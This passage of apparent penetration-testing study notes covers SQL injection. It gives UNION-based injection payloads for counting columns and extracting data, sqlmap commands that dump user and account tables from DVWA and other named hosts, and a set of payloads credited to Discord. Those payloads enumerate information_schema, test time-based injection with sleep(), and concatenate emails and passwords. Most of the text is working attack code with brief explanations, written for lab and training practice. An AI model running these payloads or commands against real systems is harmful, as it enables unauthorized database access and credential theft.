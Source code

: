```bash
Warning: mysql_fetch_array() expects parameter 1 to be mysql_result, boolean given in /var/www/view.php on line 32
```

* We can try with two fields: `' UNION SELECT null null; -- -` and three even to confirm that the original query only has two fields.
* Once we know how many fields are in the query it's time to test which fields are part of the output page.
* You can do that by injecting some known values and checking thee results in the output page, as in: `' UNION SELECT 'elsid1', 'elsid2'; -- -`.
* Now we can exploit the injection: `' UNION SELECT user(), 'elsid2'; -- -`.
* Not only `SELECT` queries are vulnerable.

## SQLMap

* Can detect and exploit SQL injections
* Needs to know the vulnerable URL and the parameter to test for a SQLi

```bash
sqlmap -u <URL> -p <injection parameter> [options]
sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U
sqlmap -u <url> --data=<POST string> -p id [options] # POST string as user=a&pass=a

# You can copy the POST string  from a request intercepted in Burp Suite
sqlmap -r file.req -p user
sqlmap -u 'http://192.168.1.20/dvwa/vulnerabilities/sqli/?id=231&Submit=Submit#' --cookie="PHPSESSID=26faf41ffba440ce1346b8d8ca9408ac; security=low" -D dvwa -T users --dump

# --technique=U --> UNION based SQL injection technique
# --banner shows server's banner
# --flush-session

sqlmap -u http://10.124.211.96/newsdetails.php?id=1 -D awd -T accounts --dump
```

#### From discord (to test)

```sql
1' UNION SELECT 1-- -
3' AND sleep(5) -- -
SELECT 1, schema_name,3 FROM information_schema.schemata limit 1,1-- -
SELECT 1, table_name,3 FROM information_schema.tables WHERE table_schema=hotel limit 1,1-- -
SELECT 1, column_name,3 FROM information_schema.columns WHERE table_schema=hotel and table_name=room limit 1,1
SELECT 1, table_name,3 FROM information_schema.tables limit 1,1-- -
SELECT group_concat(email,0x3a,Password) from awd.accounts limit 1,1;
```
